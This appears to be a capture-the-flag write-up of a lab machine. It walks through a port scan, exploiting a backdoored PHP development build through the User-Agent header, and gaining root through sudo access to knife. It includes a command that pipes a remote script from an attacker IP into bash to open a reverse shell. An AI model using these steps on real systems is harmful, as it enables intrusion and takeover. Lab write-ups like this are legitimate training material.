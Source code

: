 # PORT SCAN
* **22** &#8594; SSH
* **80** &#8594; HTTP (APACHE 1.18)

<br><br><br>

# ENUMERATION & USER FLAG

The webpage is a simple page whit nothing to interract

![c1bd89fda2ece0c46be5de3d85e4715f.png](img/c1bd89fda2ece0c46be5de3d85e4715f.png)

I used **<u>nikto</u>** (dirbusting return nothing) to have more information about the technology used on the target

![166da7b5b5aaaef2b95a9ffcc889cba1.png](img/166da7b5b5aaaef2b95a9ffcc889cba1.png)

The PHP version seems very suspicious, especially the `dev` part, With a quick research I can discover that is vulbnerable to RCE modifying the **<u>User-Agent</u>** header. I tried to puing on my machine and we can accomplish the RCE correctly! 

![f687229637a573fd7b5ca5d5d1290bb0.png](img/f687229637a573fd7b5ca5d5d1290bb0.png)

![3ff2342eeb828bf50e922817e3fba72d.png](img/3ff2342eeb828bf50e922817e3fba72d.png)

> The story behind this backdoor is pretty interesting, at first the PHP development team tought about a compromise github account but during investigation everything point to the **<u>compromise of the git.php.net server</u>**. After that the whole team migrate from their own Git infrastructure to GitHub assuming that mantaining their own was an "unnecessary risk". cool to know the little story behind!

Now we can spawn a reverse shell abusing this backdoor with the command `curl http://10.10.14.15/l.sh | bash`

![1f77cf11724f49d3866a9c79168eb4fd.png](img/1f77cf11724f49d3866a9c79168eb4fd.png)

This is enough effort forthe user flag!

<br><br><br>

# PRIVILEGE ESCALATION

`sudo -l` is always a good place if you search something juicy! This time we have access as root at `/usr/bin/knife`.
[Knife](https://docs.chef.io/workstation/knife/) is a CLI which act as interface between chef-repo and [Chef Infra Server](https://docs.chef.io/server/) a HUB for configuration files (cookbooks) that can be applied to the nodes.
By the way we can execute commands with Knife through the `-E` flag in combination with `exec` subcommand, I found this on [GTFO](https://gtfobins.github.io/gtfobins/knife/)

![e336f5f5b93fe40092188f2e6a0bcfc4.png](img/e336f5f5b93fe40092188f2e6a0bcfc4.png)

![1a42e7bbc2a5c79fe75efb7151ee9969.png](img/1a42e7bbc2a5c79fe75efb7151ee9969.png)

We used the knife of the target against him!
